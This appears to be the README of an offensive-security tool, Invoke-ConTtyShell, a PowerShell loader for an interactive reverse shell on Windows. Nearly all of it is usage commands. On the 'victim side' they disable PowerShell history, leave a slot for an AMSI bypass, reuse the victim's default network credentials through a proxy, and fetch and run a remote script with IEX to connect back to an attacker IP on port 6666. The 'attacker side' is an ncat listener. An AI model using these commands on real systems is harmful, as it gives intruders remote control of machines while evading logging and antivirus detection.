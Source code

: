 # Invoke-ConTtyShell
.Net Assembly loader for the ConTtyShell


Tested on:
Windows 10 22H2 x64

Victim side usage:

```
Set-PSReadlineOption -HistorySaveStyle SaveNothing

<Insert-Your-AMSI-Bypass-From-AMSI.FAIL-Here>

[Net.ServicePointManager]::SecurityProtocol=[Net.SecurityProtocolType]::Tls12
# [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}

[system.net.webrequest]::defaultwebproxy = new-object system.net.webproxy('http://proxy:8080')
[system.net.webrequest]::defaultwebproxy.BypassProxyOnLocal = $true
[system.net.webrequest]::defaultwebproxy.credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials

# [system.net.webrequest]::defaultwebproxy.credentials = Get-Credential

IEX(IWR -UseBasicParsing -UserAgent "hi-there-blueteam" 'https://raw.githubusercontent.com/ricardojba/Invoke-ConTtyShell/main/Invoke-ConTtyShell.ps1')

Invoke-ConTtyShell -Command "attacker-ip 6666"
```

Attacker side usage:

```
stty raw -echo; (stty size; cat) | ncat -lvnp 6666
```
